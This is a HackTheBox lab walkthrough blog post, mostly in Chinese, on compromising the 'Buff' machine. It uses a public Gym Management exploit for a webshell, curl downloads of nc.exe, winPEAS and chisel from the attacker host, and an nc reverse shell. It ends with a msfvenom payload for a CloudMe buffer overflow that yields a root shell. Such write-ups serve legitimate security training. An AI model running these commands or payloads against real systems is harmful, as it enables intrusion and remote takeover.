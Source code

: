 ```yaml
---
layout: post
title:  "HackTheBox >_ Buff_198"
description: walkthrough
category: HackTheBox
---
```

# Buff_198
![]({{ site.url }}/assets/Buff_198.assets/2020-11-05-08-47-51.png)

![]({{ site.url }}/assets/Buff_198.assets/2020-11-05-09-58-25.png)


![]({{ site.url }}/assets/Buff_198.assets/2020-11-05-08-55-50.png)

$ searchsploit -m 48506

![]({{ site.url }}/assets/Buff_198.assets/2020-11-05-08-58-26.png)

`python 48506.py http://10.10.10.198:8080/`

![]({{ site.url }}/assets/Buff_198.assets/2020-11-05-09-26-28.png)

注意这个利用脚本只相当于激活一个webshell

只能上传文件，只能执行有限的命令



搜索后知道这个webshell的地址为

`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=`


利用curl将nc传输到靶机

python -m SimpleHTTPServer 8080

`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=curl http://10.10.14.5:8080/nc.exe --output nc.exe`

使用nc 得到shell

`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe 10.10.14.5 4444 -e cmd.exe`

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-14-06-21.png)

提权

`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=curl http://10.10.14.5:8080/winPEAS.exe --output winPEAS.exe`

经过一些查找，在shaun用户的downloads文件夹下发现了可疑的文件

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-14-34-33.png)

应该是cloudme 1.11.2

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-14-36-31.png)

这个程序是有存在bof漏洞的。


查看进程，看是否有运行

`tasklist`

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-14-31-25.png)

searchsploit -m 48389

查看脚本

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-14-39-46.png)

脚本目标默认目标是本地127.0.0.1:8888

搜索了一下，cloudme是在本地监听的，

在枚举的时候也发现了同样的信息

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-18-47-03.png)

上传chisel进行端口转发

`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=curl http://10.10.14.5:8080/chisel.exe --output chisel.exe`

./chisel.exe client 10.10.14.5:8181 R:8888:127.0.0.1:8888

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-19-09-43.png)

kali 端

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-19-09-21.png)

现在已经成功转发端口。

按照脚本中的例子生成payload

msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.5 1337' -b '\x00\x0a\x0d' -f py -v payload

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-14-52-58.png)

替换掉脚本中的payload部分

nc监听1337

执行exploit，立即获得root shell

![]({{ site.url }}/assets/Buff_198.assets/2020-11-06-19-12-26.png)

